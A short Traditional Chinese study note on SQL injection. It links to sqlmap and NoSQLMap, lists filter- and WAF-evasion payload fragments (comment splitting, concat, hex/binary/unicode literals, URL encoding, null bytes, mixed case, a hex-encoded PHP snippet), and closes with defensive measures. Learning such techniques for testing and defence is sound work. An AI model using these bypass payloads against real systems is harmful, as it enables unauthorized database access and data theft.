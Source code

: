 ### SQL Injection 自動化工具
- sqlmap
	- 源始碼庫：[sqlmap - github](https://github.com/sqlmapproject/sqlmap)
	- Kali官網說明文件：[sqlmap - Kali Tools](https://www.kali.org/tools/sqlmap/)
	- 參考教程：[超詳細SQLMap使用攻略及技巧分享](https://tw511.com/a/01/7684.html)
- NoSQLMap
	- 源始碼庫：[NoSQLMap - github](https://github.com/codingo/NoSQLMap)

## 🗡逃脫技術 Escape Technique
- 語句中的註解：`/*/union/*/select/*/from/*/…`
- 字串連接重新組合：`concat('se','lect')`
- 字元編碼
	1. `' or 'a' = n'a # unicode`
	2. `' or 'a' = b'1100001 # binary`
	3. `' or 'a' = _binary'1100001`
	4. `' or 'a' = x'61`
- 字串混淆：`SELECT CONV(5,16,2);` HEX 轉 2 進制
- 空白字元：`select+*+from+table`
- HEX編碼：`0x3c3f70687020706870696e666f28293b3f3e`
- URL編碼：`%2F%5C**%2Funion%2F%5C**%2Fselect%2F%5C**%2Ffrom%2F%5C**%2F`
- NULL 字元：`%00`
- 大小寫不同：`SeLeCt * FrOm table`

## 🗡SQL 防禦
- Penetration testing (manual, with tool)
- 參數化查詢
- 原始碼分析
- 應用層防火牆(WAF)
- 移除錯誤訊息頁面-->避免錯誤注入
- 將不必要的資料庫權限移除
- 所有使用者的輸入都是不可信任的，通通必須驗證
- 使用錯誤頁面導向，讓攻擊者看不到訊息
- SQL語句關鍵字過濾
- SQL功能過濾
